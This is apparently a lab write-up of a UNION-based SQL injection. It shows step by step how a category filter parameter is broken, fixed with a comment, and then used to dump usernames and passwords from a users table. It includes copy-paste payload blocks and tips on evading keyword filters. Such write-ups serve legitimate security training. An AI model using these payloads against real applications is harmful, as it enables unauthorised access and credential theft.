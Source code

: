 # SQL injection UNION attack, retrieving data from other tables

A concise write-up using **my original steps** (verbatim) with small, accurate notes and payload blocks.

---

## 🥅 Goal
**Get the administrator password** by leveraging a UNION-based SQL injection.

---

## ✅ My Exact Steps (Verbatim)

1. **GOAL: get the administrator password.**

2. **knowledge: "The database contains a different table called users, with columns called username and password"**

3. **Lets find the vulnerable url parameter**

4. **`/filter?category=Clothing'` -> returns 500**

5. **fixing the error: `/filter?category=Clothing'+--+` -> return 200**

6. **Let's randomly try this: `/filter?category=Clothing'+UNION+SELECT+username,password+FROM+users+--+`**

7. **This was incredibly easy to guess since we had a lot of information.**

8. **i would suggest to go step by step: discover error  (maybe its blind), fix, escalate depends on case.**

---

## 🧠 Minimal Additions (Why / Tips)

- **UNION rules:** The injected `UNION SELECT` must match the **number of columns** (and compatible types) from the original query.  
  - If `username,password` errors, try aligning column count using `NULL` fillers: `UNION SELECT username,password FROM users` (for 2 columns) or `UNION SELECT username,password,NULL FROM users` (for 3 columns), etc.
- **Which column is printed?** If you don’t see output, try swapping positions or inserting your data in the **reflected column** determined earlier (e.g., `NULL,username`).
- **Comments:** `--` comments out the remainder; many engines require a trailing space. `--+` works in URLs because `+` decodes as a space.
- **Schema hints:** If multiple schemas exist, qualify the table (e.g., `FROM app.users`). On MySQL you can also do `FROM \\`dbname\\`.users`.
- **Safety note:** Some apps filter keywords; obfuscations (`UNI/**/ON`, backticks/quotes) or case changes may be needed in tougher labs.

---

## 🔧 Payloads I Used (Copy/Paste)

**Discovery & Fix:**
```txt
/filter?category=Clothing'
/filter?category=Clothing'--+
```

**Direct dump (two columns expected):**
```txt
/filter?category=Clothing'+UNION+SELECT+username,password+FROM+users--+
```

**If three columns are required (example layout):**
```txt
/filter?category=Clothing'+UNION+SELECT+username,password,NULL+FROM+users--+
```

**If the UI prints the second column:**
```txt
/filter?category=Clothing'+UNION+SELECT+NULL,username+FROM+users--+
```
*(Adjust positions as needed.)*

---

## 🏁 Result
- Retrieved `username` and `password` from the `users` table and identified the administrator’s credentials. **Lab Solved. ✅**
